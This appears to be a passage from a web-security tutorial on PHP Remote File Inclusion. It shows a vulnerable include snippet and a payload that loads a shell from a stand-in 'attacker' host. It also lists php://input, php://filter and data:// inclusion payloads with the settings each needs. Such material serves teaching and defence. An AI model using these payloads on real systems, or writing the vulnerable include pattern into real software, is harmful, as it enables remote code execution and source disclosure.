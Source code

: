The remote file contains, Remote File Inclusion, RFI.

```php
<?php
    if ($route == "share") {
      require_once $basePath . "/action/m_share.php";
    } elseif ($route == "sharelink") {
      require_once $basePath . "/action/m_sharelink.php";
    }
?>
```

Constructs the value of the variable `basePath`.

```text
/?basePath=http://attacker/phpshell.txt?
```

The final code is executed

```php
require_once "http://attacker/phpshell.txt?/action/m_share.php";
```

The part after the question mark is interpreted as the querystring of the URL, which is also a kind of "truncation".

- Normal remote file contains

        ```text
        ?file=[http|https|ftp]://example.com/shell.txt
        ```
        
        Need `allow_url_fopen=On` and `allow_url_include=On`.

- Utilize PHP stream input
        
        ```
        ?file=php://input
        ```
        
        Need `allow_url_include=On`.

- Utilize PHP stream filter

        ```
        ?file=php://filter/convert.base64-encode/resource=index.php
        ```
        
        Need `allow_url_include=On`.

- Use data URIs

        ```
        ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=
        ```
        
        Need `allow_url_include=On`.

- Execute with XSS
